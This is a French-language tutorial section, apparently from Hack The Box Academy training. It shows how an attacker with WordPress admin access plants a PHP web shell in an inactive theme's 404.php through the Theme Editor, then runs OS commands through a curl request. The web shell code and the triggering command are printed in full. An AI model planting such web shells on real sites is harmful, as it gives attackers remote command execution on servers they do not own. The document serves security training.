 Exécution de code à distance (RCE) via l'éditeur de thème
=========================================================

* * * * *

Attaquer le backend WordPress
-----------------------------

Avec un accès administratif à WordPress, nous pouvons modifier le code source PHP pour exécuter des commandes système. Pour effectuer cette attaque, connectez-vous à WordPress avec les informations d'identification de l'administrateur, ce qui devrait nous rediriger vers le panneau d'administration. Cliquez sur `Appearance`sur le panneau latéral et sélectionnez `Theme Editor`. Cette page nous permettra d'éditer directement le code source PHP. Nous devons sélectionner un thème inactif afin d'éviter de corrompre le thème principal.

#### Éditeur de thème

![image](https://academy.hackthebox.com/storage/modules/17/Theme-Editor.png)

Nous pouvons voir que le thème actif est `Transportex`donc un thème inutilisé qui `Twenty Seventeen`devrait être choisi à la place.

#### Sélection d'un thème

![image](https://academy.hackthebox.com/storage/modules/17/Twenty-Seventeen.png)

Choisissez un thème et cliquez sur `Select`. Ensuite, choisissez un fichier non critique tel que `404.php`celui à modifier et ajoutez un shell Web.

#### Thème vingt dix-sept - 404.php

Code : php

```
<?php

system($_GET['cmd']);

/**
 * The template for displaying 404 pages (not found)
 *
 * @link https://codex.wordpress.org/Creating_an_Error_404_Page
<SNIP>

```

Le code ci-dessus devrait nous permettre d'exécuter des commandes via le paramètre GET `cmd`. Dans cet exemple, nous avons modifié le code source de la `404.php`page et ajouté une nouvelle fonction appelée `system()`. Cette fonction nous permettra d'exécuter directement les commandes du système d'exploitation en envoyant une requête GET et en ajoutant le `cmd`paramètre à la fin de l'URL après un point d'interrogation `?`et en spécifiant une commande du système d'exploitation. L'URL modifiée devrait ressembler à ceci `404.php?cmd=id`.

Nous pouvons valider que nous avons atteint le RCE en saisissant l'URL dans le navigateur Web ou en émettant la `cURL`demande ci-dessous.

#### RCE

  RCE

```
dsgsec@htb[/htb]$ curl -X GET "http://<target>/wp-content/themes/twentyseventeen/404.php?cmd=id"

uid=1000(wp-user) gid=1000(wp-user) groups=1000(wp-user)
<SNIP>

```
